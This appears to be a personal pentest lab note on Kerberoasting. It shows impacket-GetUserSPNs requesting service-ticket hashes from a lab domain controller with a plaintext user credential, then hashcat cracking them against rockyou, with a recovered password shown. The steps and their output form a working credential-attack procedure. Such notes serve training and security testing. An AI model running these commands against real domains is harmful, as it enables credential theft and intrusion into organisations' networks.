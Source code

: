 # Kerberoasting
## Impacket Method
`-save` will save a ccache file, but we want the hashes to crack, so we use `-outputfile`
```
impacket-GetUserSPNs -outputfile kerberoast_hashes.txt -dc-ip 10.0.1.10 'attacklab.local/Phoebe Chillax:summer2021!'
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName           Name           MemberOf  PasswordLastSet             LastLogon  Delegation
-----------------------------  -------------  --------  --------------------------  ---------  ----------
Kerberoast Me/attacklab.local  Kerberoast Me            2021-08-31 23:34:02.562550  <never>
```
Hashcat is supposed to support compressed wordlists, but it did not work for me
```
cd /usr/share/wordlists/
gzip -d rockyou.txt.gz
```
Crack the hashes
```
hashcat -m 13100 -o cracked_hash.txt kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```
It will output the full hash and the password appended, but it is also stored in the file we defined
```
cat cracked_hash.txt
[SNIP]:P@ssw0rd!
```
## Rubeus Method

TODO
